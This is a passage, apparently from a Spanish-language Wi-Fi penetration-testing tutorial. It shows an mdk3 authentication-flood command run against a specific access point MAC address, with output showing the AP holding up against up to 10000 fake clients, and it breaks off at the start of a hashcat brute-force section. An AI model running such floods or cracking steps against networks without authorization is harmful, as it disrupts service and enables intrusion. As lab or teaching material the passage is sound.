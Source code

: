 ```bash
# sudo mdk3 wlan0 a -a F4:71:90:48:71:AC

AP F4:71:90:48:71:AC is responding!           
AP F4:71:90:48:71:AC seems to be INVULNERABLE!      
Device is still responding with   500 clients connected!
AP F4:71:90:48:71:AC seems to be INVULNERABLE!      
Device is still responding with  1000 clients connected!
AP F4:71:90:48:71:AC seems to be INVULNERABLE!      
Device is still responding with  1500 clients connected!
AP F4:71:90:48:71:AC seems to be INVULNERABLE!      
Device is still responding with  2000 clients connected!
AP F4:71:90:48:71:AC seems to be INVULNERABLE!      
Device is still responding with  2500 clients connected!
AP F4:71:90:48:71:AC seems to be INVULNERABLE!      
Device is still responding with  3000 clients connected!
AP F4:71:90:48:71:AC seems to be INVULNERABLE!      
Device is still responding with  3500 clients connected!
AP F4:71:90:48:71:AC seems to be INVULNERABLE!      
Device is still responding with  4000 clients connected!
AP F4:71:90:48:71:AC seems to be INVULNERABLE!      
Device is still responding with  4500 clients connected!
AP F4:71:90:48:71:AC seems to be INVULNERABLE!      
Device is still responding with  5000 clients connected!
AP F4:71:90:48:71:AC seems to be INVULNERABLE!      
Device is still responding with  5500 clients connected!
AP F4:71:90:48:71:AC seems to be INVULNERABLE!      
Device is still responding with  6000 clients connected!
AP F4:71:90:48:71:AC seems to be INVULNERABLE!      
Device is still responding with  6500 clients connected!
AP F4:71:90:48:71:AC seems to be INVULNERABLE!      
Device is still responding with  7000 clients connected!
AP F4:71:90:48:71:AC seems to be INVULNERABLE!      
Device is still responding with  7500 clients connected!
AP F4:71:90:48:71:AC seems to be INVULNERABLE!      
Device is still responding with  8000 clients connected!
AP F4:71:90:48:71:AC seems to be INVULNERABLE!      
Device is still responding with  8500 clients connected!
AP F4:71:90:48:71:AC seems to be INVULNERABLE!      
Device is still responding with  9000 clients connected!
AP F4:71:90:48:71:AC seems to be INVULNERABLE!      
Device is still responding with  9500 clients connected!
AP F4:71:90:48:71:AC seems to be INVULNERABLE!      
Device is still responding with 10000 clients connected!

```

# Fuerza bruta con Hashcat

Creamos un formato utilizable por hashcat:
